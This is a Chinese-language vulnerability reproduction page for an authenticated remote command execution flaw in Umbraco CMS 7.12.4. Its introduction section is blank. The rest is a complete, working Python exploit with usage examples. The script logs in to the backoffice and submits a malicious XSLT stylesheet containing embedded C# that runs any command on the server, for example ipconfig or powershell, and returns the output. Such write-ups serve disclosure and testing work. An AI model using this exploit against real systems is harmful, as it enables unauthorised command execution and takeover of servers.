 Umbraco CMS 7.12.4 后台远程命令执行漏洞
=======================================

一、漏洞简介
------------

二、漏洞影响
------------

Umbraco CMS 7.12.4

三、复现过程
------------

### Usage

    $ python exploit.py -h
    usage: exploit.py [-h] -u USER -p PASS -i URL -c CMD [-a ARGS]

    Umbraco authenticated RCE

    optional arguments:
      -h, --help                 show this help message and exit
      -u USER, --user USER       username / email
      -p PASS, --password PASS   password
      -i URL, --host URL         root URL
      -c CMD, --command CMD      command
      -a ARGS, --arguments ARGS  arguments

### Examples:

    $ python exploit.py -u admin@example.org -p password123 -i 'http://10.0.0.1' -c ipconfig
    $ python exploit.py -u admin@example.org -p password123 -i 'http://10.0.0.1' -c powershell.exe -a '-NoProfile -Command ls'

### poc

    # Exploit Title: Umbraco CMS - Authenticated Remote Code Execution 
    # Date: 2020-03-28
    # Exploit Author: Alexandre ZANNI (noraj)
    # Based on: https://www.exploit-db.com/exploits/46153
    # Vendor Homepage: http://www.umbraco.com/
    # Software Link: https://our.umbraco.com/download/releases
    # Version: 7.12.4
    # Category: Webapps
    # Tested on: Windows IIS
    # Example: python exploit.py -u admin@example.org -p password123 -i 'http://10.0.0.1' -c ipconfig

    import requests
    import re
    import argparse

    from bs4 import BeautifulSoup

    parser = argparse.ArgumentParser(prog='exploit.py',
        description='Umbraco authenticated RCE',
        formatter_class=lambda prog: argparse.HelpFormatter(prog,max_help_position=80))
    parser.add_argument('-u', '--user', metavar='USER', type=str,
        required=True, dest='user', help='username / email')
    parser.add_argument('-p', '--password', metavar='PASS', type=str,
        required=True, dest='password', help='password')
    parser.add_argument('-i', '--host', metavar='URL', type=str, required=True,
        dest='url', help='root URL')
    parser.add_argument('-c', '--command', metavar='CMD', type=str, required=True,
        dest='command', help='command')
    parser.add_argument('-a', '--arguments', metavar='ARGS', type=str, required=False,
        dest='arguments', help='arguments', default='')
    args = parser.parse_args()

    # Payload
    payload = """    <?xml version="1.0"?><xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" xmlns:csharp_user="http://csharp.mycompany.com/mynamespace"><msxsl:script language="C#" implements-prefix="csharp_user">public string xml() { string cmd = "%s"; System.Diagnostics.Process proc = new System.Diagnostics.Process(); proc.StartInfo.FileName = "%s"; proc.StartInfo.Arguments = cmd; proc.StartInfo.UseShellExecute = false; proc.StartInfo.RedirectStandardOutput = true;  proc.Start(); string output = proc.StandardOutput.ReadToEnd(); return output; }  </msxsl:script><xsl:template match="/"> <xsl:value-of select="csharp_user:xml()"/> </xsl:template> </xsl:stylesheet>    """ % (args.arguments, args.command)

    login = args.user
    password = args.password
    host = args.url

    # Process Login
    url_login = host + "/umbraco/backoffice/UmbracoApi/Authentication/PostLogin"
    loginfo = { "username": login, "password": password}
    s = requests.session()
    r2 = s.post(url_login,json=loginfo)

    # Go to vulnerable web page
    url_xslt = host + "/umbraco/developer/Xslt/xsltVisualize.aspx"
    r3 = s.get(url_xslt)

    soup = BeautifulSoup(r3.text, 'html.parser')
    VIEWSTATE = soup.find(id="__VIEWSTATE")['value']
    VIEWSTATEGENERATOR = soup.find(id="__VIEWSTATEGENERATOR")['value']
    UMBXSRFTOKEN = s.cookies['UMB-XSRF-TOKEN']
    headers = {'UMB-XSRF-TOKEN': UMBXSRFTOKEN}
    data = { "__EVENTTARGET": "", "__EVENTARGUMENT": "", "__VIEWSTATE": VIEWSTATE,
        "__VIEWSTATEGENERATOR": VIEWSTATEGENERATOR,
        "ctl00$body$xsltSelection": payload,
        "ctl00$body$contentPicker$ContentIdValue": "",
        "ctl00$body$visualizeDo": "Visualize+XSLT" }

    # Launch the attack
    r4 = s.post(url_xslt, data=data, headers=headers)
    # Filter output
    soup = BeautifulSoup(r4.text, 'html.parser')
    CMDOUTPUT = soup.find(id="result").getText()
    print(CMDOUTPUT)
